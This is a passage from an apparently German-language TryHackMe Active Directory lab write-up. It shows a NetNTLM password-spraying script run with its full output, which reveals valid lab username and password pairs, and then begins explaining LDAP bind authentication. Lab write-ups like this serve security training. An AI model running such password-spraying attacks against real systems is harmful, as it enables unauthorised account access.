     - <Passwort> - Das Passwort, das wir für unseren Sprühangriff verwenden möchten - "Changeme123"
    
    - <Angriffs-URL> - Die URL der Anwendung, die Windows-Authentifizierung unterstützt - "http://ntlmauth.za.tryhackme.com"
Unter Verwendung dieser Parameter sollten wir einige gültige Anmeldedatenpaare aus unserem Password-Spraying-Angriff erhalten.

```bash        
┌──(akwa㉿kali)-[~/thm/ActiveDirectory/breachad/tools]
└─$ python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com 
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found

```

Durch die Kombination von OSINT und NetNTLM-Password-Spraying haben wir jetzt unsere ersten gültigen Anmeldeinformationen, die zur weiteren Enumeration von AD verwendet werden könnten!

# LDAP Bind Credentials

### LDAP

Eine weitere Methode der AD-Authentifizierung, die von Anwendungen verwendet werden kann, ist die Lightweight Directory Access Protocol (LDAP)-Authentifizierung. LDAP-Authentifizierung ist ähnlich wie NTLM-Authentifizierung. Bei der LDAP-Authentifizierung überprüft die Anwendung jedoch direkt die Anmeldeinformationen des Benutzers. Die Anwendung verfügt über ein Paar AD-Anmeldeinformationen, die sie zunächst zum Abfragen von LDAP und dann zur Überprüfung der AD-Benutzeranmeldeinformationen verwenden kann.

Die LDAP-Authentifizierung ist ein beliebter Mechanismus bei Drittanbieteranwendungen (nicht von Microsoft), die mit AD integriert sind. Dazu gehören Anwendungen und Systeme wie:
